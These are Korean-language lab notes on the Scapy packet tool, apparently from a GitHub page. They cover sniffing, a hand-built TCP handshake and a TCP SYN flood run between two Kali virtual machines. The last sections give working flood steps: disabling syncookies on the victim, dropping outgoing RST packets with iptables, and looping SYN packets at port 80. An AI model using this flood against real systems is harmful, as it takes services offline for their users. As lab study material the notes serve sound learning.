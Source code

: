 # scapy

파이썬으로 작성된 패킷 조작 도구

패킷 디코딩, 전송, 캡처, 수정 등 다양한 기능을 제공

스카피는 계층 레이어를 쌓을 수 있다

<https://www.itlkorea.kr/data/scapy-pocket-guide0.2.pdf>

```bash
# scapy 실행
scapy

# 지원하는 프로토콜을 확인
ls()

# TCP 헤더 정보를 출력
ls(TCP)

# 현재 설정되어 있는 TCP헤더 정보를 출력
TCP().display()

# 사용가능한 기능을 확인
lsc()

# 현재 설정되어 있는 IP헤더 정보를 출력
IP().display()
# or
ip = IP()    #  변수로 지정
ip.display()

# ip destination 값을 192.168.44.144로 변경
ip.dst="192.168.44.144"
ip.display()

# scapy는 전송 계층을 쌓을 수 있다. 캡슐래이션 하는 방법을 알아보자
ip = IP()
tcp = TCP()
packet = ip/tcp
packet.display()

# sniffing하기
sniff()

# sniffing 결과를 sf 변수에 저장
sf = sniff()    # 실행하고 웹브라우저에서 사이트에 접속해보자
sf.display()

# 10개의 정보만 스니핑
sf = sniff(count=10)
sf.display()

# 스니핑 한 결과의 0번째를 자세하게 보여준다
sf[0].show()
```

## scapy를 이용한 3way handshaking

```bash
ip = IP()
ip.display()

ip.dst = "192.168.44.144"
ip.display()

tcp = TCP()
tcp.display()
# 플래그가 s로 되어있다

# sport 를 변경해준다
# RandNum 파이썬에서 랜덤넘버 생성 함수
tcp.sport = RandNum(1024, 65535)
tcp.display()

# 패킷을 만들어 쌓는다
syn = ip/tcp

#
syn_ack = sr1(syn)
syn_ack.display()

#
ack = ip/TCP(sport=syn_ack[TCP].dport, dport=80, flags="A", seq=syn_ack[TCP].ack, ack=syn_ack[TCP].seq+1)
send(ack)

```

wireshark로 확인
3way 핸드 쉐이크를 하려면 빠르게 입력해야 한다
셸스크립트를 작성해서 빠르게 입력되도록 한다

싱크플러딩
싱크 아크/싱크 아크를 보내야하는데
아크를 안보내면 싱크가 계속 기다린다

## TCP SYN Flooding

kali1 (피해자) 클라이언트에서 원활한 실습을 위해 설정을 변경한다

```bash
root@kali:~# sysctl -a | grep syncookies
net.ipv4.tcp_syncookies = 1    # syncookies를 사용 = backlog que에 SYN 패킷을 저장하지 않음
sysctl: reading key "net.ipv6.conf.all.stable_secret"
sysctl: reading key "net.ipv6.conf.default.stable_secret"
sysctl: reading key "net.ipv6.conf.eth0.stable_secret"
sysctl: reading key "net.ipv6.conf.lo.stable_secret"

root@kali:~# sysctl -w net.ipv4.tcp_syncookies=0
net.ipv4.tcp_syncookies = 0
root@kali:~# sysctl -a | grep syncookies
sysctl: reading key "net.ipv6.conf.all.stable_secret"
net.ipv4.tcp_syncookies = 0
sysctl: reading key "net.ipv6.conf.default.stable_secret"
sysctl: reading key "net.ipv6.conf.eth0.stable_secret"
sysctl: reading key "net.ipv6.conf.lo.stable_secret"


```

@Kali#2 에서 RST 패킷이 외부로 나가지 못 하도록 방화벽에 등록

## TCP SYN Flooding

```bash
# scapy에서 나온다
exit()

# kali2 공격자 pc에서 rst가 나가는 것을 막는다. kali2에서 아래 명령어를 작업
iptables -A OUTPUT -p tcp --tcp-flags RST RST -j DROP

# scapy로 들어간다
scapy

ip = IP()
ip.dst="192.168.44.144"
tcp = TCP()
tcp.dport = 80
tcp.sport = RandNum(1024,65535)
tcp.flags = "S"
syn = ip/tcp
send(syn, loop=True)

싱크플러딩 공격
공격자가 피공격자에게 아크를 보내야 하는데 싱크만 계속 보낸다

```

kali1 피해자 클라이언트에서 확인

```bash
# kali1에서 와이어샤크를 띄운다(패킷확인)
wireshark  # ip.addr == 공격자주소 입력

# 터미널에서 실행
netstat -an | grep -i syn_recv

싱크 리시브 상태만 가지고 있다
ddos 공격
```
